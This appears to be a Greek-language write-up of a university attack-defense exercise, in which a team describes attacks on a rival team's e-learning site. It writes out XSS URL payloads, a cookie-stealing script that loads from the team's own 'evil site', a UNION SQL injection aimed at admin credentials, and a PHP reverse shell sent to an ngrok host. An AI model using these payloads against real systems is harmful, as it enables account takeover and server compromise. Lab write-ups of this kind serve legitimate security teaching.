





# Attacks

## XSS ATTACKS
Στην αρχή της επίθεσης ξεκινήσαμε ψάχνοντας μήπως καταφέρουμε να βρούμε κάποια ευπάθεια (σε πεδίο φόρμας-παράμετρος URL-όνομα αρχείου σε ανέβασμα) 
όπου θα μπορούσαμε να εισάγουμε τον δικό μας κώδικα javascript.
Τα περισσότερα σημεία είχαν ασφαλιστεί καλά. Παρόλα αυτά υπήρξαν 2 βασικές ευπάθειες που εκμεταλλευτήκαμε.
1. Παρατηρήσαμε πως στις περισσότερες σελίδες μπορεί να μην μπορούσε να εκτελεστεί το script που εισάγαμε, παρόλα αυτά μπορούσε να εκτελεστεί όταν
   παρουσιαζόταν η σελίδα που αναφέρει την αποτυχία κάποιου sql ερωτήματος.
Case in point το παρακάτω URL: `http://caesar-salads.csec.chatzi.org/modules/phpbb/viewtopic.php?topic=<script>alert(1)</script>&forum=1`
2. Στις σελίδες που υπάρχει κάποια φόρμα και δίνεται η δυνατότητα στον χρήστη να πληκτρολογήσει εντός του xinha plugin, ενώ αν δοθεί κάποιο <script>
   tag χωρίς την ενεργοποίηση κάποια λειτουργικότητας του plugin ο κώδικας γίνεται
sanitize και δεν εκτελείται πουθενά, στην περίπτωση που ενεργοποιηθεί η λειτουργία μετάβαση σε κώδικα html και εισάγουμε κάποιο script, αυτό εκτελείται
   κανονικότατα.<br>Μπορείτε να το δοκιμάσετε στο παρακάτω url `http://caesar-salads.csec.chatzi.org/modules/phpbb/newtopic.php?forum=1` 
3. Ένα ακόμα url που αποτελεί μια ακόμα πιο απλή περίπτωση XSS είναι στην εγγραφή χρήστη. `http://caesar-salads.csec.chatzi.org/modules/auth/newuser.php?nom_form='><script>alert(1)</script>`

## CSRF ATTACKS
### Δημιουργία evil site.
Αρχικά δημιουργήσαμε το δικό μας evil site http://unbeerables.puppies.chatzi.org/. Με σκοπό να στέλντονται request εν αγνοία του θύματος.<br>
Σελίδες που υλοποίησαμε:<br>
1. puppies1.php. H συγκεκριμένη σελίδσα είχε στόχο να στέλνεται ένα request για την δημιουργεία μιας δημόσιας ανακοίνωσης από τον drunkadmin.
   Η αντίπαλη ομάδα είχε προστατεύσει την συγκεκριμένη φόρμα με αποτέλεσμα να μην περάσει.<br><br>
    
   <br>
2. puppies2.php. Στόχος την δεύτερης σελίδας που υλοποιήσαμε ήταν να καταφέρουμε να κλέψουμε το cookie του drunkadmin έτσι ώστε να αποκτήσουμε πρόσβαση στον            λογαριασμό του. Για την περάτωση του σκεφτήκαμε να εκμεταλλευτούμε την ευπάθεια που βρήκαμε στην σελίδα http://caesar-                         salads.csec.chatzi.org/modules/phpbb/viewtopic.php?topic=1&forum=1  εισάγωντας στην παράμετρο $topic το script που θέλουμε να εκτελεστεί. Γιαυτό δημιουργήσαμε το     Javascript αρχείο biscuit.js και το δώσαμε ως τιμή στην παράμετρο $topic. `<script src=http://unbeerables.puppies.chatzi.org/biscuit.js></script>`. 
  O σύνδεσμος που στείλαμε με email στον drunkadmin ηταν: ```http://caesar-salads.csec.chatzi.org/modules/phpbb/viewtopic.php?topic=<script src=http://unbeerables.puppies.chatzi.org/biscuit.js></script>&forum=1```
  Πατώντας πάνω του αποθηκευόταν το SESSION cookie του ως παράμετρο στο url και απευθείας ανακατευθυνόταν πίσω στο evil site μας ετσι ώστε μην καταλάβει to attack που είχε δεχτεί. Τέλος, βλέποντας τα logs του site και τα Request που έχουν σταλθεί καταφέραμε και πήραμε το cookie και σπεύσαμε να συνδεθούμε πριν λήξει.Το οποίο και καταφέραμε.<br>
  
  O κώδικας του αρχείου puppies2.php.
  
  <br><br>
  O κωδικας του αρχείου biscouit.js.
  
  
  

<br>

## SQLi
Αναφορικά με τα sql injections δεν είχαμε τα καλύτερα αποτελέσματα. Στις σελίδες που πειραματιστήκαμε δεν καταφέραμε να έχουμε τα καλύτερα αποτελέσματα αφού φαίνεται είχαν προστατευθεί από τους αμυνόμενους. Παρόλα αυτά το γεγονός ότι πολλές φορές προέκυπτε κάποιο μήνυμα λάθους μας βοήθησε στις υπόλοιπες επιθέσεις που κάναμε. Ένα παράδειγμα προσπάθεις μας να λάβουμε κάποια πληροφορία από την βάση μέσω sql ερωτήματος, ήταν το παρακάτω:
`http://caesar-salads.csec.chatzi.org/modules/agenda/myagenda.php??month=1' union select username,password,null from eclass.user where username='drunkadmin`
Του οποίου σκοπός ήταν να βγεί από το ερώτημα με την χρήση του '1 και να συνδέσει τα αποτελέσματα του ερωτήματος για τον drunkadmin με τον υπόλοιπο πίνακα.


##  File Injections
Τα δύο σημεία στα οποία μπορούμε να ανεβάσουμε αρχεία με σκοπό να τους εισάγουμε κώδικα και να εκτελεστεί, είναι στο ανέβασμα εργασίας και στην
ανταλλαγή αρχείων.<br><br>
Γνωρίζοντας πως τα αρχεία που ανεβάζουμε αποθηκεύονται σε έναν φάκελο με τυχαίο όνομα, μας αρκεί να βρούμε τον φάκελο αυτό, να πλοηγηθούμε στο
αρχείο αυτό με αποτέλεσμα να εκτελεστεί ο κώδικας μας. Η ομάδα caesar-salads με σκοπό να το αποτρέψει αυτό απαγόρευσε γενικά την πλοήγηση στους
διαφόρους φακέλους, με αποτέλεσμα στην προσπάθεια μας να αναζητήσουμε τον τυχαίο αυτό φάκελο σε κάποιον "πατέρα" φάκελο να βλέπουμε 
**403 Forbidden**.<br><br>
Παρόλα αυτά τα μηνύματα λάθους που συναντήσαμε και στις επιθέσεις XSS μας έβαλαν σε σκέψεις. Σκεφτήκαμε πως αν προκαλούσαμε κάποιο λάθος σε κάποιο
query που περιέχει το τυχαίο όνομα του φακέλου που δημιουργείται θα μας το εμφάνιζε όλο το query έχοντας το όνομα του φακέλου και του αρχείου
συμπληρωμένο. Ύστερα από διάφορες προσπάθειες τα καταφέραμε, και όταν πήγαμε να εισάγουμε ένα αρχείο με όνομα `'.txt` είδαμε στην οθόνη μας:
<br><br>

<br><br>
Στο σημείο αυτό είχαμε βρει τον φάκελο που αποθηκεύονταν τα αρχεία του χρήστη 
`http://caesar-salads.csec.chatzi.org/courses/TMA100/work/609175af2d0a4/`
αλλά και το όνομα με το οποίο έχει αποθηκευθεί η εργασία που υποβάλαμε.
Το μόνο που λείπει είναι να δημιουργήσουμε το κατάλληλο αρχείο που θα εκτελεστεί. Εμείς αποφασίσαμε να δοκιμάσουμε να πάρουμε ένα shell στο μηχάνημα.
Έτσι στο test.php μας βάλαμε τον παρακάτω κώδικα:
```php
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/8.tcp.ngrok.io/16002 0>&1'")
```
Ο συγκεκριμένος κώδικα χρησιμοποιεί τη συνάρτηση της php exec με σκοπό να δημιουργηθεί ένα διαδραστικό instance του bash, προοθώντας τα αποτελέσματα
σε μία TCP σύνδεση.
(Χρησιμοποιήσαμε το ngrok για να μπορέσουμε να πάρουμε τα δεδομένα μέσω tunneling και να μην χρειάζονται να κάνουμε 
configurations στο τοπικό μας δίκτυο.)

### Αποτελέσματα
Καταφέραμε λοιπόν να έχουμε ένα shell μέσα στο μηχάνημα που είναι hosted η εφαρμογή.
<br><br>

<br><br>
Έτσι μπορούσαμε να γράψουμε σε πολλά αρχεία που είχαμε access αλλά είχαμε την δυνατότητα να διαβάσουμε και όλα τα αρχεία συμπεριλαμβανομένου και του 
config file που εμπεριείχε και τον κωδικό του drunkadmin.

### Αποτυχημένη προσπάθεια
Βλέποντας στην ανταλλαγή αρχείων πως τα αρχεία φωτογραφίας και gif άνοιγαν στον browser ενώ αρχεία που μπορεί να περιείχαν κώδικα μας δινόταν αποκληστικά η δυνατότητα να κατεβάσουμε το αρχείο. Με λίγη αναζήτηση είδαμε πως μπορούσαμε να φτιάξουμε ένα gif το οποίο να περιέχει κώδικα php ώστε να εκτελεστεί όταν φορτωθεί. Δυστυχώς όμως δεν καταφέραμε να δημιουργήσουμε σωστά το αρχείο gif με σκοπό κατά την φόρτωση του να προκύπτει μήνυμα λάθους.
